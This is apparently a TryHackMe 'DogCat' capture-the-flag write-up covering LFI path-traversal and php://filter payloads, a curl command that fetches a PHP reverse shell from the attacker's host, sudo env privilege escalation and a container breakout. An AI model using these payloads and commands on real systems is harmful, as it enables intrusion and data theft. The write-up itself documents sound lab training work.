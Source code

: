 # DogCat TryHackMe

**VIDEO WRITEUP**

https://youtu.be/wnEVK7xIfcY

**Enumeration**

**Nmap:**

![image](https://user-images.githubusercontent.com/79543461/176386293-cbf1ba92-20aa-4012-9bca-efaeb883aaba.png)

Seeing only SSH and HTTP open, it seems that it will be a web vulnerability

**WhatWeb:**

![image](https://user-images.githubusercontent.com/79543461/176386911-cc73be86-9d60-4c08-8959-e0087ee3ff47.png)

**Web with Browser:**

![image](https://user-images.githubusercontent.com/79543461/176389233-3105ec6b-e61a-4df5-bef0-8f3f5faecd19.png)

**I click in dog and i see this:**

![image](https://user-images.githubusercontent.com/79543461/176389528-0e08f17b-3915-461e-a495-691a1ccf0ec5.png)

**In URL i see "view" parameter, It looks like LFI, let's try basic payloads**

![image](https://user-images.githubusercontent.com/79543461/176389910-70dcc9e5-b0b6-423d-a29b-9a8ddcd61392.png)

That message can mean two things.

Or they have protected the LFI website, Or the devoloper added filters so that an LFI cannot be executed so easily

**Payloads:**

../../../../etc/passwd = **No Work**

../../../../etc/passwd%00 = **No Work**

%252e%252e%252fetc%252fpasswd = **No Work**

%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00 = **No Work**

/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd = **No Work**

**Wrappers:**

Let's try with LFI Wrappers:

expect://whoami = **No Work**

php://filter/convert.base64-encode/resource=index.php = **No work**

Okey anything work, but i try to put cat or dog, it is possible that the filter checks if there is the word dog or cat.

Payload: **dog/etc/passwd**

![image](https://user-images.githubusercontent.com/79543461/176392772-34d8dbd7-ab20-4949-bf3a-97a9e4aa33df.png)

**That's It!!**

Every time I click on cat or dog I get a different picture, that makes me think that it could be a php file that is executed.

But looking at the source code it is very clear to me.

Therefore, to check it is necessary to send a base64 filter in the wrapper and ask it to give me the page cat or dog.

![image](https://user-images.githubusercontent.com/79543461/176395381-0726391b-8cc3-49cd-a33c-561605793226.png)

**WORKS!!! Lets go to Decode Base64 code**

![image](https://user-images.githubusercontent.com/79543461/176395536-b72fb120-52a8-4f4d-8e30-6a11189a9d90.png)

Same with dogs file

![image](https://user-images.githubusercontent.com/79543461/176396151-bc86b5d4-77ca-42fb-90fc-6c2caf3b8ce7.png)

**FFUF:**

Web App are adding .php extension in all the querys.

![image](https://user-images.githubusercontent.com/79543461/176399811-07d12933-5306-449f-983e-19af0110bf6a.png)

**Tryng Payloads I found the correct Payload**

![image](https://user-images.githubusercontent.com/79543461/176399237-64556068-edc0-4774-94dd-b5acfdc30d49.png)

**Decoded base64 index.php code**

![image](https://user-images.githubusercontent.com/79543461/176399650-b30098b2-02ec-4371-8006-8f9c06107134.png)

**Other FFUF**

![image](https://user-images.githubusercontent.com/79543461/176443978-851bd070-272b-47cb-9d54-cde62d16e1d5.png)

**Flag**

![image](https://user-images.githubusercontent.com/79543461/176402871-df440e00-01e7-479e-9cac-10131e797a06.png)

![image](https://user-images.githubusercontent.com/79543461/176444149-15725303-a6ab-47dd-ba1a-6fab61e0277f.png)

**Seeing index.php code• i see ext paramter expected in GET request.**

http://10.10.64.213/?view=php://filter/convert.base64-encode/resource=dog/../flag&ext=.php == WORKS GOOD

http://10.10.24.8/?view=php://filter/convert.base64-encode/resource=dog/../../../../&ext=etc/passwd == **WORKS GOOD!!!!!!!!**

**/etc/passwd**

![image](https://user-images.githubusercontent.com/79543461/176447685-600e98e5-7d55-4958-9d1e-9e829096cef8.png)

**With /etc/hosts i can see this: Is Docker Container**

![image](https://user-images.githubusercontent.com/79543461/176512462-a642fa4a-6c19-4a5b-b3f9-5c5f3c9fe1bb.png)

**RCE**

It's moment to upload to Remote Code Execution

**With this command:** 

![image](https://user-images.githubusercontent.com/79543461/176519831-2248462a-2123-4e21-9848-949560255509.png)

**I have RCE but it's impossible convert to shell.**

I need upload my php reverse shell.

To upload i do the next steps

**1.** Configure the PHP File

![image](https://user-images.githubusercontent.com/79543461/176541693-679fb2c9-3ad0-4053-9cc3-dbb07a6d087b.png)

**2.** Active Python HTTP Server

![image](https://user-images.githubusercontent.com/79543461/176541858-9557c6d3-674d-4a00-b34b-0fc13d41d341.png)

**3.** Download and Save shell with victim machine

curl -o shell.php 10.8.222.251:8000/shell.php

**4.** Activate your Listener 

![image](https://user-images.githubusercontent.com/79543461/176542198-31dcaf95-6d56-4e5d-8b51-cdbf1b67a526.png)

**5.** Open with browser Shell file

http://10.10.223.232/shell.php

And you have shell working

**PrivEsc**

sudo -l

**ENV ROOT SHELL**

I see this user can execute env command with sudo permisions

**GTFOBINS**

![image](https://user-images.githubusercontent.com/79543461/176544171-8efbd861-0814-44ad-9424-3b59f630f5b8.png)

sudo /usr/bin/env /bin/bash

**Root Shell**

![image](https://user-images.githubusercontent.com/79543461/176544345-e977a6c5-008f-410c-8fea-64225dfd861a.png)


**Flag 2 and 3**

![image](https://user-images.githubusercontent.com/79543461/176544642-ae2ae665-b29a-459d-8fed-d05b50dfd48d.png)

**/opt/backups**

I found this!!

![image](https://user-images.githubusercontent.com/79543461/176545146-16e666f2-ef11-4649-8aed-9608128cc450.png)

![image](https://user-images.githubusercontent.com/79543461/176545248-e5d9e4ee-d230-4cd0-9346-b91efd55be2d.png)

tar -xvf backup.tar

**BreakOut Container**

![image](https://user-images.githubusercontent.com/79543461/176548118-ced6fca2-69aa-4d33-856f-5514f1e829b8.png)

![image](https://user-images.githubusercontent.com/79543461/176548234-66df1fae-1520-405d-9066-e84f64087b89.png)

![image](https://user-images.githubusercontent.com/79543461/176548699-b5244b9b-9384-4875-b841-e0b425f7cc58.png)

And Wait...

![image](https://user-images.githubusercontent.com/79543461/176549524-b1b13519-2a68-40f6-83f2-3da54cd6e954.png)

**Root Flag**

![image](https://user-images.githubusercontent.com/79543461/176549617-962ea253-3cbc-4275-8d95-03a063dadbd3.png)

DEMO:

https://youtu.be/wnEVK7xIfcY

Thanks!

